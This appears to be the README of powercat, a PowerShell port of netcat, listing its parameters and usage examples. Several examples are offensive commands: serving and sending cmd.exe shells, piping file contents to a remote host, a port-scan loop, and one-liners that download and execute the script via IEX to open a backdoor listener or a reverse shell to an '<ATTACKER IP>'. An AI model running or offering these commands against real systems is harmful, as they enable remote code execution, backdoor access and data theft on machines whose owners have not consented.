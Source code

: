 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Formats: "-r 10.1.1.1:443", "-r 443"          [String]
    -t    Timeout option. Default: 60                          [int32]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Output to a File:
        powershell -c '. .\powercat.ps1; powercat -l 443' > C:\outputfile
    Send a File (String):
        'The string I want to send' | powercat -l 443
        [IO.File]::ReadAllText('C:\inputfile') | powercat -c 10.1.1.10 443
### powercat Relay Examples:
    Listener to Client Relay:
        powercat -l -p 8000 -r 10.1.1.16:443
    Listener to Listener Relay:
        powercat -l -p 8000 -r 4444
    Client to Listener Relay:
        powercat -c 10.1.1.16 -p 443 -r 4444
    Client to Client Relay:
        powercat -c 10.1.1.16 -p 443 -r 10.1.1.16:3389
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        foreach($p in (21,22,80,443)){powercat -c 10.1.1.10 -p $p -t 1 -Verbose}